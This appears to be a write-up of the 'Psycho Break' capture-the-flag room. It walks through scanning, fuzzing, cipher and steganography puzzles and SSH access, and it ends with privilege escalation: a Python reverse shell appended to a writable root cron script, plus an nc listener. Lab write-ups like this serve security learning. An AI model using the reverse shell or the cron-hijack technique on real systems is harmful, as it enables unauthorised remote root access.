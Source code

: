 # Psycho Break Write-up - Easy

## Nmap

```
nmap -sC -sV <ip> -p-
```

Open ports:
- 21: ftp. ProFTPD 1.3.5a
- 22: ssh. OpenSSH 7.2p2 Ubuntu
- 80: http. Apache httpd 2.4.18

None of the versions appear to be vulnerable.


## HTTP

Viewing the source on port 80's home page revealed a directory **/sadistRoom**.
This displayed the first key for the locker room.

The locker room page says decode the text: *Tizmg_nv_zxxvhh_gl_gsv_nzk_kovzhv*. This is the *atbash* cipher, revealing the second map key after inputting the decoded key.

Entering this key into /map.php reveals links to all 4 rooms, so let's check out the final two.


### Safe Haven

The source code contains the comment *I think I'm having a terrible nightmare. Search through me and find it ...*

Using fuzzing tools with a standard wordlist didn't find anything, so I used cewl to generate a custom wordlist based on the link given in the page source of the first room:

```
cewl -url https://theevilwithin.fandom.com/wiki/Sadist > words.txt

gobuster fuzz -u http://<ip>/SafeHeaven//FUZZ -w words.txt -k --exclude-length 273
```

This quickly found the */keeper* directory. It then gives you 1m45s to find the real location of the given image. Quickly navigating to *https://tineye.com/* and uploading the image found some original sources with the location listed, although I had to re-format it to match the page's. This gave me the keeper key.


### The Abandonded Room

The page source of this room gives a hint about a *shell*, so I tried to add it as a parameter:
```
?shell=<command>
```

It is a very limited shell because as most commands result in *Command not permitted!*, but the **ls** command worked, so I had a look around the filesystem. The parent directory (..) contained two interesting directories, one of which was the current directory name, so I replaced that with the other one.

This let me escape from Laura! This new directory contained a txt file congratulating me, as well as a *helpme.zip*. Unzipping revealed the helpme.txt and Table.jpg files. 

helpme.txt:
```
From Joseph,

Who ever sees this message "HELP Me". Ruvik locked me up in this cell. Get the key on the table and unlock this cell. I'll tell you what happened when I am out of 
this cell.
```

Using Binwalk found there were some embedded files within the Table.jpg file, as it returned *key.wav* and *Joseph_Oda.jpg*. Running unzip again retrieved these 2 files.


## Audacity & FTP

Loading key.wav into audacity shows a sequence of shorter and longer beeps separated by even longer gaps: *morse code!* Translating it reveals the passphrase **showme**. Using this key with upper case let's us extract a final text file from Joseph_Oda.jpg.

```
steghide extract -sf Joseph_Oda.jpg
```

This generated a thankyou.txt file with some ftp credentials for the *joseph* user.
```
ftp <ip>
```

On the ftp server, there were two files, a program and a dictionary list called random.dic.


## Python script to find the keyword

Program takes a word as an argument and outputs either 'Incorrect' or 'Correct'. I wrote a short python script to run the program with each of the keywords in the list, and output the word that caused 'Correct' to appear in the list.

```
import subprocess
import sys

wordlist = sys.argv[1]
program = sys.argv[2]

with open(wordlist, 'r') as file:
    for line in file:
        line = line.strip()
        output = subprocess.check_output([program, line])
        output = output.decode('utf-8').strip()
        if "Correct" in output:
            print("Keyword found: " + line)
            break
```

Then, run the program with:
```
python3 script.py random.dic ./program
```

This found the keyword **kidman**. Supplying this argument to the program outputs this:
```
Well Done !!!
Decode This => 55 444 3 6 2 66 7777 7 2 7777 7777 9 666 777 3 444 7777 7777 666 7777 8 777 2 66 4 33
```

Because there is a maximum of 4 numbers supplied, I guessed this was a *tap phone cipher*, and I was right. The message is the password to ssh for the *kidman* user.


## SSH & Privilege Escalation

```
ssh kidman@<ip>
```

The first flag was found in the user's home directory as usual.
I found an interesting cronjob being run by root: **python3 /var/.the_eye_of_ruvik.py**. Since this script is writeable, I just added to the end a python reverse shell back to my machine to get root :)

```
import socket, subprocess, os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("<my_ip>",4444))
os.dup2(s.fileno(),0) 
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
import pty 
pty.spawn("/bin/bash")

```

Then, setup the listener with **nc -lvnp 4444** and wait for the cronjob to run!
The root flag was found in the /root directory as usual :)

This challenge was so fun! Not particularly difficult, but had a lot of enjoyable elements like the morse code in the .wav file.
